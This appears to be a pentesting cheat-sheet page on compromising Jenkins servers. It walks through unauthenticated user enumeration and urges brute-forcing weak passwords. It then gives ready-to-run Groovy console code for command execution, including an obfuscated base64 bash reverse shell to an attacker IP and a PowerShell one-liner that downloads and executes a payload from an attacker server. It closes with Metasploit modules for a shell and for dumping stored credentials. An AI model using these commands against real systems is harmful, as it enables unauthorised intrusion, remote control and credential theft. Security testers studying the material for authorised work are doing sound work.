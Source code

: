 # Jenkins

## Enumeration

Searching for interesting Jenkins pages without authentication like _`/people`_ or _`/asynchPeople`_ (this lists the current users) you can use:

```
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may be able to get the Jenkins version from the path _**/oops**_ or _**/error**_

![](../../web-app-pentesting/80-443/broken-reference)

Using cURL

```bash
curl -v <target-IP>
```

![](<../../.gitbook/assets/image (61).png>)

Or from intercepting traffic with Burp Suite

![](<../../.gitbook/assets/image (22) (1) (1).png>)

## Login

You will be able to find Jenkins instances that **allow you to create an account and login inside of it. As simple as that.**\
\*\*\*\*Also if **SSO** **functionality**/**plugins** were present then you should attempt to **log-in** to the application using a test account (i.e., a test **Github/Bitbucket account**). Trick from [**here**](https://emtunc.org/blog/01/2018/research-misconfigured-jenkins-servers/).

### Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used (even **usernames as passwords** or **reverse** usernames as passwords).

```bash
msf> use auxiliary/scanner/http/jenkins_login
```

## Known Vulnerabilities

{% embed url="https://github.com/gquere/pwn_jenkins" %}

## Code Execution

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **Linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script** is (replace \[INSERT COMMAND]):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse Shell in Linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse Shell in Windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://[IP_ADDRESS]:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF Exploit

You can use MSF to get a reverse shell:

```
msf> use exploit/multi/http/jenkins_script_console
```

## Post Exploitation

Dump Jenkins credentials using:

```
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}
